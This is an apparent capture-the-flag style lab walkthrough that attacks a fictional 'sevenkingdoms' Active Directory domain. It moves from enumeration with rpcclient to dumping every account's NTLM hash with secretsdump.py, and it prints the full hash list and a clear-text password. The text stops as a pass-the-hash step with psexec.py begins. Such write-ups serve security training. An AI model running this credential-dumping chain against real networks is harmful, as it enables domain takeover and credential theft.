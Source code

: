 Since I got one user credentials for Winterfell which is `robb.stark:sexywolfy`, let's try to connect to it via rpcclient.

`rpcclient -U 'robb.stark%sexywolfy' 10.4.10.11`

By running `enumdomusers` I get the list of users:

![](../../../../images/Pasted image 20250107135937.png)

Then I get the list of groups by running `enumdomgroups`:

![](../../../../images/Pasted image 20250107140035.png)

Now, since I want to get the members of the Domain Admins, i use `qureygroupmem 0x200`:

![](../../../../images/Pasted image 20250107140129.png)

Here I see the `rid-s` of the members of Domain Admin group, which are `0x1f4` and `0x457`, and by looking at the users I can conclude that the members of this admin group are:

`user:[Administrator] rid:[0x1f4]`
`user:[eddard.stark] rid:[0x457]`

Now, let's get the hashes, by using `secretsdump.py`, and running:

```bash
secretsdump.py north.sevenkingdoms.local/robb.stark:sexywolfy@10.4.10.11
```

I got:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:34b24f1a67d914d8ef876f8bd02f3f0b:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::
brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:8a647d60877c8743dccb8ff2aa18a060:::
CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:0073abf6ce521277f2d1a148bc955aa9:::
SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
```


Then by using `Pass the Hash` I use this hash to authenticate as the Domain Admin, using the `psexec.py` tool from `impacket`:
